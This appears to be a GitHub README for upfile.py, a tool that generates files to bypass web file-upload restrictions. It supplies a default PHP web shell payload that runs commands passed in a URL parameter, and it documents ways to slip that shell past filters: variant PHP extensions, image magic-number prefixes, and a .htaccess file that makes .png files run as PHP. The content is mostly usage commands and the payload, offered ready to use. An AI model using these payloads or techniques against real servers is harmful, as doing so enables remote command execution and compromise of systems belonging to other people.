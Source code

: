 # generate-file-upload
Generate some payload to bypass restriction when you perform a file upload

```
python upfile.py
```
Generate in `Payloads/` all extension for PHP

Default name : `payload`

Default file : `PHP`

Default payload : `<?php system($_GET["cmd"]); ?>`

-----

## Exemple of usage :
```
python upfile.py -b
```
Generate all bypass for PHP


```
python upfile.py -n test -p test -ext php
```
Generate file named `test.php` which contain `test`


```
python upfile.py -b -m png
```
Generate all files bypass for PHP, which contain `magicNumber + payload`


```
python upfile.py -ext png -h png
```
Generate `.htaccess` which allow execution of php whith extension .png and create `paylaod.png`

-----

## Options
```
usage: upfile.py [-h] [-d] [-p <payload>] [-f {php}] [-ext <ext>] [-b] [-n <name>] [-m {png,jpg}] [-ht <ext>]

Generate some payload to bypass restriction when you perform a file upload

options:
  -h, --help            show this help message and exit
  -d, --debug           Seen the debug to see the process
  -p <payload>, --payload <payload>
                        The payload in the files
  -f {php}, --file {php}
                        The type of the files
  -ext <ext>, --extension <ext>
                        Generate the payload with specific extension
  -b, --bypass          Bypass the restriction
  -n <name>, --name <name>
                        Name of the file
  -m {png,jpg}, --magic {png,jpg}
                        Magic Header, add the magics numbers before the payload
  -ht <ext>, --htaccess <ext>
                        Creates in addition a .htaccess file, which allow execution of php whith extension that you
                        have chosen
   ```                     
